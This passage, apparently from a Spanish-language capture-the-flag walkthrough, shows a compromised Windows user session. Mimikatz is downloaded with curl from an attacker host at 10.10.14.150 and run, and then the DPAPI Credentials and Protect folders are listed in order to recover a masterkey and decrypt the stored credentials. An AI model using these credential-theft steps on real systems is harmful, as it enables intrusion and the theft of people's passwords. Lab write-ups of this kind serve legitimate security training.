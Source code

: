```bat
PS C:\Users\PPotts\Documents> curl -o mimikatz.exe http://10.10.14.150:8000/mimikatz.exe
PS C:\Users\PPotts\Documents> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz #
```

Okay, miremos el directorio que mencioné arriba:

```bat
PS C:\Users\PPotts\Documents> ls -Force ~\AppData\Roaming\Microsoft\Credentials


    Directory: C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          5/9/2023   2:08 PM            358 18A1927A997A794B65E9849883AC3F3E
-a-hs-          5/9/2023   4:03 PM            398 84F1CAEEBF466550F4967858F9353FB4
-a-hs-         1/18/2024  11:53 AM            374 E76CCA3670CD9BB98DF79E0A8D176F1E
```

La que tiene fecha de modificación más reciente debe ser, ahora necesitamos un segundo directorio que está almacenado en `%APPDATA%\Microsoft\Protect\<SID del usuario>`, y es el que contiene un componente que nos permitirá encontrar la masterkey para desencriptar esto, buscando en la carpeta podremos encontrar unos cuantos:

```bat
PS C:\Users\PPotts\Documents> ls -Force ~\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107


    Directory: C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-         1/17/2024   3:43 PM            740 10811601-0fa9-43c2-97e5-9bef8471fc7d  <-----
-a-hs-          5/2/2023   4:13 PM            740 191d3f9d-7959-4b4d-a520-a444853c47eb
-a-hs-         6/25/2024  11:02 AM            740 1b82834b-da1f-4c60-8dcb-050ba331942d
-a-hs-          5/2/2023   4:13 PM            900 BK-OFFICE
-a-hs-         6/25/2024  11:02 AM             24 Preferred
```

El que tiene una fecha de modificación similar al que encontramos arriba debe ser, vamos a utilizarlo para obtener nuestra masterkey de la DPAPI y posteriormente leer las credenciales en texto claro.
